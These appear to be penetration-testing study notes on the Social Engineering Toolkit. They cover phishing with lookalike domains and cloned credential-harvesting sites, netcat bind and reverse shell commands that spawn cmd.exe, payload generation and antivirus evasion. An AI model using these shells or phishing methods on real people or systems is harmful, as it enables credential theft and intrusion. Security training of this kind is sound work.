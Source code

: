 # Social Engineering Toolkit (SET)
Social engineering attacks.
Phishing - bunch of emails to many users.
Spear phishing - specific email(s) to one/many users, prepared attack.

$setoolkit
Stealing credentials.

Before you send an e-mail to your victims:
* First, you need to have an SMTP relay account (I’m using my GoDaddy
relay service). Do some research to find the service that is suitable for you.
* You need a professional and convincing e-mail or else your attack will nevitably fail.

Pay attention to these two things in the e-mail:
* Grammatical mistakes are not allowed. For example, “following” is not
correct in the previous message, so this will call attention to the authenticity of the e-mail.
* If you want to use URLs, make sure they are close to the real domain
name. For example, micosoft (without the r) is very close to Microsoft.

## Spear phishing attack
Best-gem attack is to first need to prepare a professional HTML e-mail and
make sure it doesn’t raise any doubts when the victim receives it. Clone a website and attach a database to it so each time victims submit their credentials, they will be saved into that database.

The second important part is the link that you are going to add in your e-mail.
What is the best way to obfuscate that URL? Well, the simple answer is to create
a domain and then create a subdomain that is a copy of the original one.
create a fake domain with a similar name like Fcb.com and then create a subdomain
Facebook.com. 

Here is what it should look like: facebook.fcb.com (facebook it's an example)

Ideally, you used a convincing e-mail that persuades employees
to click the URL that will redirect the employees to the fake site. The employees
will start writing their credentials, and when they click the login button, they
will be redirected to the real site. The attacker now has the credentials of the
unfortunate victims.

# Payloads & Listeners
A payload is an executable that will allow you to connect to a listener.
The goal is to have a TCP connection between the victim host and the attacker.
Firewall may block any incoming connections coming from the outside using the bind shell.

## Bind Shell
Attacker connects directly from Kali to the victim’s machine where a listener has already been launched.

nc - NetCat

victim: /nc.exe -nlvp 9999 -e C:\Windows\System32\cmd.exe
attacker: nc -nv 10.0.20.127 9999

10.0.20.127 is victim's IP 

## Reverse-shell
Attacker is listening for incoming connections from any victim. It's favorable because firewalls will usually
allow the traffic to pass through.

attacker: nc -nlvp 8888
victim: ./nc.exe 10.0.20.140 8888 -e C:\Windows\System32\cmd.exe

### Payload bypassing antivirus
You want to make sure that your payload executable will not be detected by the antivirus software installed on the victim’s PC.

upload your payload and scan it using the public virus scan site
www.virustotal.com/gui/home/upload

The best way to obfuscate your payloads is by using a custom one. In other words, you have to develop a payload using a programming language Python, PowerShell, C#, etc.

Generate a payload using SET:
* 1: Social-Engineering Attacks
* 4: Create a Payload and Listener
* 1: Windows Shell Reverse_TCP

Enter your Kali (attacker) host IP and the port number that you want to listen on. Once you do, it will generate a payload under /root/.set/payload.exe.

At this stage, the SET automatically launches the Metasploit multihandler listener.

### USB Rubber Ducky
The USB Rubber Ducky is not a USB stick,
though it looks like one; it is, in fact, a keyboard. Antivirus
software will think that you just plugged in a keyboard and not a USB stick.
We’re not done yet! When you insert this stick into the computer, it will
start typing and executing whatever you like on the victim’s machine—what
a fantastic invention!

General guidelines:
* make sure that when you prepare your e-mail message or phone
call, they are compelling and professional enough so the end user can
take the bait.
* secret to a successful social engineering attack is proper prep-
aration. So planning your attack will increase the chance of your
success.
* Next comes the infection phase. If you want to use a hardware kit in your
attacks, make sure you use a good one like the USB Rubber Ducky, for
example. Now, if you insist on using a USB stick in your attack, that’s
fine, but don’t try the autorun functionality, because it’s outdated. Also, today’s companies are well aware of USB stick infections, and they have already implemented security controls to protect against such attacks.

The best way to use reverse shells is to use one that you developed
yourself using your favorite programming language so it can by-pass antivirus.
